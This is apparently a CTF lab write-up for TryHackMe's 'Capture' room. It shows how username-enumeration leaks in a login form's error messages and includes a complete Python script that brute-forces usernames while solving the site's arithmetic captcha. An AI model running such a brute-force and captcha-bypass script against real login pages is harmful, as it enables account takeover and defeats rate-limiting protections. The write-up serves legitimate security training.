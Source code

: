 # Capture(TryHackMe)

Link to TryHackMe Room [https://tryhackme.com/room/capture](https://tryhackme.com/room/capture)

<img src="https://user-images.githubusercontent.com/25124463/236878216-64d5ac34-8a10-4814-9621-64c2c4af9306.png" width="600">




In this CTF room from TryHackMe I will be attempting to bypass a login form.&#x20;



### Enumeration&#x20;

After starting the machine and navigating to the login page this is what we are presented with. 

<img src="https://user-images.githubusercontent.com/25124463/236878987-fe6d22dd-2c2a-4113-ac5f-cd7bc0543316.png" width="600">


When entering the username ``admin`` and password ``admin`` as a test I see that I get an output at the bottom of the page saying:

**Error: The user 'admin' does not exist**

This means that we can brute force the login to find the username and observe for when the response does not contain the above error message indicating that username exists. 
We could do this on Burp Suite using the included username wordlist but the site has captcha in place after too many unsucessful login attempts.

<details>
<summary>Captcha</summary>

![captcha](https://user-images.githubusercontent.com/25124463/236881474-84571341-c715-4e2f-a9ab-dea7cb25b17c.png)
</details>

Since we now have to solve each captcha we must create a script to do this. I decided to use python to make my script. 

The username hacking script must do the following:
* Read each line of the ``usernames.txt`` file 
* Send the request with the login url and username/password payload. The password at this point is not important so we can give it a dummy value. Main goal is to find a valid username. 
* When captcha is found in the response we must solve it and include it in the request payload. 
* Loop through usernames and halt the script when a response returns html code that doesn't include ``Error: The user 'admin' does not exist``. 

My solution might not be most elegant but it works to find the username lol
<details>
<summary>Code</summary>

```

import requests
import re

url = '' # replace with the URL of the login page

with open('usernames.txt', 'r') as uf:
    for username in uf:
        username = username.strip()
        
        payload = {
            "username" : username,
            "password" : "test_password"
        }

        response = requests.post(url, data=payload)

        if  "Invalid password for user"in response.text:
            print(f"Correct username: {username}")
            exit()
        else:
            # Solve CAPTCHA if present and send login request
            captcha_match = re.search(r'\d+\s*[-+/*]\s*\d+\s*=\s*\?',response.text)
            captcha_text = ''
            if captcha_match is not None:
                captcha_text = captcha_match.group(0).replace('=', '').strip()
                print("CAPTCHA text:", captcha_text)

                # Solve the CAPTCHA and include the solution in the payload
                match = re.search(r'(\d+)\s*([-+/*]?)\s*(\d+)', captcha_text)
                if match:
                    num1, operator, num2 = match.groups()
                    solution = eval(num1 + operator + num2)
                    print("Solution:", solution)
                    print(username)
                    payload['captcha'] = solution
                else:
                    print("Error: Failed to extract numbers and operator from CAPTCHA text")
                    continue
            
            # Send login request
            response = requests.post(url, data=payload)

            if "Invalid password for user" in response.text:
                print(f"Valid username: {username}")
                exit()



```
</details>
